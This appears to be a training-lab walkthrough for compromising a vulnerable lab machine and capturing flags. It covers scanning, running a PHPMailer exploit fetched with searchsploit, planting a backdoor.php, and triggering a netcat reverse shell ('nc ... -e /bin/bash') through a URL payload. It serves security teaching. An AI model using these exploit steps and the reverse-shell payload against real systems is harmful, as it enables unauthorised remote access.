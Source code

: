 # **TARGET 2 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other techniques have been explored. Look at the PowerPoint presentation and the Penetration Testing Report Target 2 to find more methods not specified in this walkthrough.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. A glimpse at the Kali Linux machine IP and network addresses.

        ifconfig

    ![1](/Images/4/1.PNG)

2. Network FootPrinting (find machines on the network).

        nmap 192.168.1.0/24

    ![2](/Images/4/2.PNG)

3. Target2 fingerprinting (find services and ports on target2).

        nmap -sV 192.168.1.115 

    ![3](/Images/4/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto.

        nikto -C all -h 192.168.1.115

    ![4](/Images/4/4.PNG)

5. Scan for paths using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Images/4/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser.
   
        192.168.1.115/vendor/

    **PHPMAILER detected.**

    ![6](/Images/4/6.PNG)     
   
7. Double click "PATH".

    **flag1**

    ![7](/Images/4/7.PNG)

8. Double "Click SECURITY.md".

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Images/4/8.PNG)    

9.  Double "Click VERSION".

    **It reveals the PHPMAILER version in use.**

    ![9](/Images/4/9.PNG)  

10. Search for scripts to exploit PHPMAILER with Searchsploit.

        searchsploit phpmailer

    ![10](/Images/4/10.PNG)  

11. A glance at script 40968.sh

        searchsploit phpmailer -x php/webapps/40968.sh     

    **Press "q" keyboard to quit view.**

    ![11](/Images/4/11.PNG) 

12. Download the script to the current folder.

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Images/4/12.PNG)

13. Authorize file to execute.

        sudo chmod 777 40968.sh

14. Run exploit.

        ./40968.sh 192.168.1.115

    ![13](/Images/4/13.PNG)

    > Note: PHPMAILER can be exploited. Nevertheless,  the shell from this script does not allow us to do much. After researching, "exploit.sh" was discovered. It allows for creating a more useful shell.

    Script: [exploit.sh](/Resources/explot.sh)

15. Change the URL on the script.

        nano exploit.sh

    ##### Note: **To exit nano: "CTRL X", then "y" and "enter".**

    ![14](/Images/4/14.PNG)

16. Authorize file to execute.

         sudo chmod 777 exploit.sh

17. Execute the file.

        ./exploit.sh

    ![15](/Images/4/15.PNG)

18. Set Kali Linux Machine to listen using the NetCat command.

         nc -lnvp 4444

    ![16](/Images/4/16.PNG)

19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address in the payload to the IP address of your own kali Linux machine.**

    ![17](/Images/4/17.PNG)

20. Look for flags.

        find /var/www -type f -iname 'flag*'

    **flag2 and flag3.**

    ![18](/Images/4/18.PNG)

21. Open the file.

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Images/4/19.PNG)

23. Insert the path for flag 3 in the browser.

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
   ![21](/Images/4/21.PNG)